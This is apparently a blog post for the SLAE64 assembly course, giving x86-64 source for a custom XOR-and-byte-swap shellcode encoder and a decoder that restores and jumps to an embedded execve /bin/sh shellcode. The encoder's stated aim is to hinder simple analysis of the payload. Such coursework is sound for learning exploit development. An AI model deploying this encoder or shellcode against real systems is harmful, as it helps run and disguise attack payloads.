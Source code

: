 ```yaml
---
layout: post
title:  SLAE64 Assignment 4 - custom encoder
excerpt: asm code for my encoder
---
```

this assignment has been splitted in 2 exercises:

## ENCODER
    ; author     : Sandro "guly" Zaccarini SLAE64-1497
    ; purpose    : this program takes shellcode from 04-execve-stack.asm and swap bytes odd
    ;              with the next odd, even with next even, skipping already swapped ones
    ;              given ABCDEFGH, resulting shellcode will be: CDABGHEF
    ;              from a high point of view, i'm working with block of 4 bytes
    ;              plus, every byte is xored with an hardcoded value to prevent basic
    ;              "cyberchef" bruteforce
    ;              this code has been written for SLAE64 assignment 4
    ;              you can find all the code at https://github.com/gulyslae/SLAE64
    ; license    : CC-BY-NC-SA
    ;
    ; r14 => used for the first move
    ; r15 => pointer to SC starting address
    ; rcx => main counter
    ; rbx => counter used for the 4bytes swapping
    
      global _start
    
      section .text
      SC: db 0x48,0x31,0xc0,0x50,0x48,0xbb,0x2f,0x62,0x69,0x6e,0x2f,0x2f,0x73,0x68,0x53,0x48,0x89,0xe7,0x50,0x48,0x89,0xe2,0x57,0x48,0x89,0xe6,0x48,0x83,0xc0,0x3b,0x0f,0x05
    
    ; i'm using this function to debug like "printf". i know initial values, and i calculated
    ; with pen and paper what i expect: piping this code to xxd is a very fast way to proof
    ; it could be easily skipped
      writeexit:
    ; don't care about previous env, junk it and print my 0x20 chars
    pop rax
    xor rax,rax
    xor rdi,rdi
    inc rdi      ; print to STDOUT of course
    mov rsi,rsp
    mov al,0x1   ; write syscall id
    mov rdx,rax
    mov dl,0x20  ; hardcoded len, i know it's 32chars => 0x20
    syscall
    xor rax,rax
    mov rdi,rax
    mov al,0x3C  ; and a neat exit, because when i print i don't want to exec
    syscall
    
    ; testodd and odd are explained on line ~92
      testodd:
    test bx,1 ; if odd. null here but as will state later, don't care
    jz odd
    ret
      odd:
    inc rbx
    inc rbx
    ret
    
      _start:
    ; make room for the shellcode, i know that the stack is rwx but memory where i have SC
    ; is r-x, so i will have sefgault if i try to write there. on modern system of course
    ; this won't work because of NX
    sub rsp,0x28
    
    ; move SC starting point to r15
    lea r15,[rel SC]
    
    ; counter to copy the whole shellcode to stack
    xor rcx,rcx
    push rcx
    pop r14
    push rcx
    pop rbx
    
    ; given i handle bytes in couple, i have to loop for half the length
    add cx,0x10
      copy:
    ; mov is heavy in term of bytes, but we don't need this shellcode to be small
    ; take rbx-th byte
    mov byte r14b,[r15+rbx]
    ; xor it
    xor r14b,0x50 ; i'd like to start with a nop, so i should xor with 0x50
                  ; unfortunately, i already have a 0x50 byte in my shellcode so it will lead
                  ; to nullbytes. doesn't matter, because i'm running this on MY box
    inc rbx
    inc rbx
    ; and swap it as discussed on top
    mov byte [rsp+rbx],r14b
    
    ; do the same with the counterpart
    mov byte r14b,[r15+rbx]
    xor r14b,0x50
    dec rbx
    dec rbx
    mov byte [rsp+rbx],r14b
    inc rbx
    
    ; i know that if rbx is odd, i already encoded a 4bytes block: i have to move to the
    ; next block by incrementing rbx by 2
    call testodd
    ; loop until rcx is 0, that means i worked on all shellcode
    loop copy
    
    ; actually i can't jmp rsp, so better write the shellcode to STDOUT :)
    call writeexit

## DECODER


    ; author     : Sandro "guly" Zaccarini SLAE64-1497
    ; purpose    : this program takes shellcode generated by 04-encoder.asm
    ;              restores and run it
    ;              this code has been written for SLAE64 assignment 4
    ; license    : CC-BY-NC-SA
    ;
    ; r14 => used for the first move
    ; r15 => pointer to SC starting address
    ; rcx => main counter
    ; rbx => counter used for the 4bytes swapping
    
      global _start
    
      section .text
      ;this shellcode is generated with: ./04-encoder |xxd -c 32a3 -g 1 | cut -c 10-105 | sed s/\ /,0x/g
      SC: db 0x90,0x00,0x18,0x61,0x7f,0x32,0x18,0xeb,0x7f,0x7f,0x39,0x3e,0x03,0x18,0x23,0x38,0x00,0x18,0xd9,0xb7,0x07,0x18,0xd9,0xb2,0x18,0xd3,0xd9,0xb6,0x5f,0x55,0x90,0x6b
    
    ; i'm using this function to debug like "printf". i know initial values, and i calculated
    ; with pen and paper what i expect: piping this code to xxd is a very fast way to proof
    ; it could be easily skipped
      writeexit:
    ; don't care about previous env, junk it and print my 0x20 chars
    pop rax
    xor rax,rax
    xor rdi,rdi
    inc rdi     ; print to STDOUT
    mov rsi,rsp
    mov al,0x1  ; write syscall id
    mov rdx,rax
    mov dl,0x20 ; hardcoded len, i know it's 32chars => 0x20
    syscall
    xor rax,rax
    mov rdi,rax
    mov al,0x3C ; and a neat exit, because when i print i don't want to exec
    syscall
    
    ; testodd and odd are explained on line ~86
      testodd:
    test bx,1 ; if odd. null here but as will state later, don't care
    jz odd
    ret
      odd:
    inc rbx
    inc rbx
    ret
    
      _start:
    ; make room for the shellcode, i know that the stack is rwx but memory where i have SC
    ; is r-x, so i will have sefgault if i try to write there. on modern system of course
    ; this won't work because of NX
    sub rsp,0x28
    
    ; move SC starting point to r15
    lea r15,[rel SC]
    
    ; counter to copy the whole shellcode to stack
    xor rcx,rcx
    push rcx
    pop r14
    push rcx
    pop rbx
    
    ; given i handle bytes in couple, i have to loop for half the length
    add cx,0x10
      copy:
    ;mov is heavy in term of bytes, but we don't need this shellcode to be small
    ; take rbx-th byte
    mov byte r14b,[r15+rbx]
    xor r14b,0x50 ; i'd like to start with a nop, so i should xor with 0x50
                  ; unfortunately, i already have a 0x50 byte in my shellcode so it will lead
                  ; to nullbytes. doesn't matter, because as video states, i'm running the
                  ; executable on the box and nullbytes shouldn't hurt.
    inc rbx
    inc rbx
    ; and swap it as discussed on top
    mov byte [rsp+rbx],r14b
    
    ; do the same with the counterpart
    mov byte r14b,[r15+rbx]
    xor r14b,0x50
    dec rbx
    dec rbx
    mov byte [rsp+rbx],r14b
    inc rbx
    
    ; i know that if rbx is odd, i already encoded a 4bytes block: i have to move to the
    ; next block by incrementing rbx by 2
    call testodd
    ; loop until rcx is 0, that means i worked on all shellcode
    loop copy
    
    jmp rsp
    ; left as debug
    ;call writeexit

*This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/*
